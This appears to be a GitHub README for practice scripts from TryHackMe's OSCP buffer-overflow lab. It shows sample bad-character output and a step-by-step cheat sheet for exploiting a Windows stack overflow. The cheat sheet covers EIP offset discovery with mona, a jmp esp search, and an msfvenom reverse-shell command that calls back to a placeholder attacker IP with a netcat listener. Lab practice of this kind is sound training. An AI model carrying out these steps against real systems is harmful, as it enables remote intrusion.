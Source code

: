 # TryHackMe_OSCP_BufferOverFlow_Prep

This repo is for two python files used to complete the OSCP BufferOverFlowPrep room from TryHackMe.com

I used the provided script's from THM for the first 4 levels of the room.

I then coded myfuzz.py and myexp.py on my own and for practice.

I also made a quick script, badchars.py to generate string that removes bad characters.

## Example of badchars.py when submitting \x00\x01\x02 as bad chars

notice the output starts at \x03 skipping over the bad chars

    python3 badchars.py

    Enter badchars, example \x00\xae\x24: \x00\x01\x02

    \x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f
    \x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c
    \x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29
    \x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36
    \x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43
    \x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50
    \x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d
    \x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a
    \x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77
    \x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84
    \x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91
    \x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e
    \x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
    \xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8
    \xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5
    \xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2
    \xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf
    \xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec
    \xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9
    \xfa\xfb\xfc\xfd\xfe\xff


## Cheat Sheet Steps for BOF exploitation

- config mona in Immunity Debugger
  - !mona config -set workingfolder c:\mona\%p
- fuzz to find crash point with myfuzz.py
- generate pattern to find EIP offset
  - /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (fuzzing break point)
- put character pattern "payload" in myexp.py
- find eip offset
  - !mona findmsp -distance (fuzzing break point)
- add offset to myexp.py and RETN with "BBBB" eip should have "42424242" to verify we've overwritten EIP
- check bad chars
  - create char list for mona !mona bytearray -b "\x00"
  - create local list with badchars.py
  - put badchars.py output in myexp.py payload then run
- check bad chars in mona with esp address 
  - !mona compare -f C:\mona\oscp\bytearray.bin -a (ESP Address)
- find jmp esp - !mona jmp -r esp -cpb "(found bad chars)"
- generate shell code with msfvenom 
  - msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
- Add NOP sled to prepend in myexp.py 
  - prepend = "\x90" * 16 in myexp.py
- Start Netcat Listener for port usesd in msfvenom
- Send the exploit by running myexp.py one last time and catch the shell.
